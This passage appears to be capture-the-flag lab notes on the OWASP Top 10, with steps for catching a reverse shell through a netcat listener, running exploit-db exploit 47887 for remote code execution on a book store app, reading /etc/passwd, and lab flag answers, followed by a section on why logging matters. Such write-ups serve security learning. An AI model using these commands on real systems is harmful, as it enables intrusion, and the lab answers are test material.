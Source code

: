 paste the payload into the cookie value

start a netcat listener on our machine `nc -lnvp 4444`

refresh the page and check our listener for a shell

flag.txt:

answer: 4a69a7ff9fd68

## Severity 9

### Components With Known Vulnerabilities

If a system is using a component with known vulnerabilities our main job is to find the 
information of the software and research it until we find an exploit

### Components With Known Vulnerabilities Lab

Find an RCE exploit for Online Book Store 1.0

answer: exploitdb 47887

Get RCE on Book Store

payload: `python3 /usr/share/exploitdb/exploits/php/webapps/47887.py http://BOOKSTORE_URL`

Find word count of /etc/passwd

payload: `wc -c /etc/passwd`

answer: 1611

## Severity 10

### Insufficient Logging and Monitoring


When web applications are set up, every action performed by the user should be logged.
Logging is important because in the event of an incident, the attackers actions can be 
traced. Once their actions are traced, their risk and impact can be determined. Without 
logging, there would be no way to tell what actions an attacker performed if they gain 
access to particular web applications. The bigger impacts of these include:

- regulatory damage: if an attacker has gained access to personally identifiable user 
information and there is no record of this, not only are users of the application affected, 
but the application owners may be subject to fines or more severe actions depending on 
regulations.

- risk of further attacks: without logging, the presence of an attacker may be undetected. 
This could allow an attacker to launch further attacks against web application owners by 
stealing credentials, attacking infrastructure and more.

The information stored in logs should include:

- HTTP status codes
- Time Stamps
- Usernames
- API endpoints/page locations
- IP addresses
